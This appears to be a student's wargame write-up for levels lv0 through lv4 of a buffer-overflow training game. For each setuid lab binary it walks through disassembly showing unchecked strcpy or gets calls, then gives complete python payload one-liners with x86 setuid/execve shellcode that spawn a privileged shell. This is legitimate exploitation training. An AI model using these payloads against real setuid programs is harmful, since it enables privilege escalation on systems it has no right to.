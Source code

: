 ```yaml
---
title: Wargame Writeup [lv0~lv3]
tags: assignment1 wargame bof lob lv0 lv1 lv2 lv3
---
```


## 0. lv0 > lv1
```bash
-rwsr-sr-x 1 lv1 lv1 11987 Feb 25  2010 lv1
```
binary "lv1" allows the user to use the permission of user:lv1 upon execution. Let's disassemble this binary

```nasm
   0x08048439 <+9>:	cmp    DWORD PTR [ebp+0x8], 0x1
   0x0804843d <+13>:	jg     0x8048456 <main+38>
```
first, the program checks if argc is 1 and exits the program if true.
If not, program continues

```nasm
   0x08048456 <+38>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048459 <+41>:	add    eax,0x4
   0x0804845c <+44>:	mov    edx,DWORD PTR [eax]
   0x0804845e <+46>:	push   edx
   0x0804845f <+47>:	lea    eax,[ebp-0x100]
   0x08048465 <+53>:	push   eax
   0x08048466 <+54>:	call   0x8048370 <strcpy@plt>
   0x0804846b <+59>:	add    esp,0x8
   0x0804846e <+62>:	lea    eax,[ebp-0x100]
   0x08048474 <+68>:	push   eax
   0x08048475 <+69>:	push   0x80484ec
   0x0804847a <+74>:	call   0x8048350 <printf@plt>  
```
the program then copies data from eax to ebp-0x100 using strcpy and prints the copied data using printf

ebp+0xc contains address for array of pointers that point to argv's. adding 4 to ebp+0xc gives address for argv[1], which contains the value that's being copied to ebp-0x100.

Since the program does not limit buffer size, it's vulnerable to BOF attacks. I used "Return To Shellcode" method to solve this problem.

the payload should contain:
1. nop
2. shellcode
3. dummy data
4. approximate address of shellcode

following is the payload (260 bytes):
```bash
`python -c 'print "\x90"*165 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "A"*54 +  "\x38\xd0\xff\xff"'`
```
we can get the shell that has the uid of lv1

```bash
$ my-pass
hello newbie!
```
<br>

## 1. lv1 > lv2
```bash
-rwsr-sr-x 1 lv2  lv2  11970 Feb 25  2010 lv2
```
binary "lv2" has the same special permission as the previous "lv1". Let's take a deeper look.
```nasm
   0x08048453 <+35>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048456 <+38>:	add    eax,0x4
   0x08048459 <+41>:	mov    edx,DWORD PTR [eax]
   0x0804845b <+43>:	push   edx
   0x0804845c <+44>:	lea    eax,[ebp-0x10]
   0x0804845f <+47>:	push   eax
   0x08048460 <+48>:	call   0x8048370 <strcpy@plt>
```
lv2 is similar to previous lv1 but the copy destination is different. Its size is 0x10 which is too small to fit the shellcode (41 bytes).
So, lets use the shellcode stored in argv instead of the buffer.

Our payload should contain:
1. dummy data
2. return address
3. nop
4. shellcode

following is the payload i used:
```bash
`python -c 'print "\x90"*20+"\x30\xd4\xff\xff"+"\x90"*30+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

we got the shell!
```bash
$ my-pass
tooo easy
```
<br>

## 2. lv2 > lv3
```bash
-rwsr-sr-x 1 lv3  lv3   11824 Feb 25  2010 lv3
```
Same permissions. Lets take a look.
```nasm
   0x080483fe <+6>:	lea    eax,[ebp-0x10]
   0x08048401 <+9>:	push   eax
   0x08048402 <+10>:	call   0x804830c <gets@plt>
```
this program uses gets to store input from stdin to buffer.

payload structure:
1. dummy data
2. return address
3. nop
4. shellcode

payload used:
```bash
(python -c'print "A"*20+"\x30\xd2\xff\xff"+"\x90"*20+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"';cat)
```

we can get the shell by passing this to lv3 via pipe
```bash
my-pass
i dont like stdin
```

<br>

## 3. lv3 > lv4
```bash
-rwsr-sr-x 1 lv4  lv4  12567 Apr 26 13:17 lv4
```
Same permissions. Disassembly time:
```nasm
   0x08048506 <+6>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804850a <+10>:	jg     0x8048523 <main+35>
```
First it checks argc and exit if it's 1
```nasm
   0x08048524 <+36>:	mov    DWORD PTR [ebp-0x2c],0x0
   0x0804852b <+43>:	nop
   0x0804852c <+44>:	lea    esi,[esi+eiz*1+0x0]
   0x08048530 <+48>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x08048533 <+51>:	lea    edx,[eax*4+0x0]
   0x0804853a <+58>:	mov    eax,ds:0x8049750
   0x0804853f <+63>:	cmp    DWORD PTR [eax+edx*1],0x0
   0x08048543 <+67>:	jne    0x8048547 <main+71>
   0x08048545 <+69>:	jmp    0x8048587 <main+135>	;for loop exit
   0x08048547 <+71>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x0804854a <+74>:	lea    edx,[eax*4+0x0]
   0x08048551 <+81>:	mov    eax,ds:0x8049750
   0x08048556 <+86>:	mov    edx,DWORD PTR [eax+edx*1]
   0x08048559 <+89>:	push   edx
   0x0804855a <+90>:	call   0x80483f0 <strlen@plt>
   0x0804855f <+95>:	add    esp,0x4
   0x08048562 <+98>:	mov    eax,eax
   0x08048564 <+100>:	push   eax
   0x08048565 <+101>:	push   0x0
   0x08048567 <+103>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x0804856a <+106>:	lea    edx,[eax*4+0x0]
   0x08048571 <+113>:	mov    eax,ds:0x8049750
   0x08048576 <+118>:	mov    edx,DWORD PTR [eax+edx*1]
   0x08048579 <+121>:	push   edx
   0x0804857a <+122>:	call   0x8048430 <memset@plt>	;void * memset ( void * ptr, int value, size_t num );
   0x0804857f <+127>:	add    esp,0xc
   0x08048582 <+130>:	inc    DWORD PTR [ebp-0x2c]
   0x08048585 <+133>:	jmp    0x8048530 <main+48>
```
Then it goes through environment values and overwrites them with zero using memset. Our previous payloads does not make any use of env values, so this shouldn't be a problem.

```nasm
   0x08048587 <+135>:	mov    eax,DWORD PTR [ebp+0xc]	;address of argv array (eax = argv[0])
   0x0804858a <+138>:	add    eax,0x4			;second item of argv array (eax = argv[1])
   0x0804858d <+141>:	mov    edx,DWORD PTR [eax]	;pointer of argv[1] value (edx = *argv[1])
   0x0804858f <+143>:	add    edx,0x2f			;0x2f th char of argv[1] value (edx = &argv[1][0x2f])
   0x08048592 <+146>:	cmp    BYTE PTR [edx],0xff
   0x08048595 <+149>:	je     0x80485b0 <main+176>
```
After the for loop of erasing env's, it compares argv[1] value's 0x2f th byte with 0xff
```nasm
   0x080485b0 <+176>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485b3 <+179>:	add    eax,0x4
   0x080485b6 <+182>:	mov    edx,DWORD PTR [eax]
   0x080485b8 <+184>:	push   edx
   0x080485b9 <+185>:	lea    eax,[ebp-0x28]
   0x080485bc <+188>:	push   eax
   0x080485bd <+189>:	call   0x8048440 <strcpy@plt>
```
Then it copies argv[1] value to ebp-0x28. Since the buffer size is 0x28, return address should start at 0x2c th byte. Which means 0x2f is the last byte of return address. Considering the fact that i386 uses little-endian, the previous step was meant to check if return address was pointing to an address starting with 0xff.

payload structure should be similar to previous ones:
1. dummy data
2. return address
3. nop
4. shell code

by using:
```bash
`python -c 'print "\x90"*44+"\xa0\xd1\xff\xff"+"\x90"*30+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```
I got the shell:
```bash
$ my-pass
broken egg
```
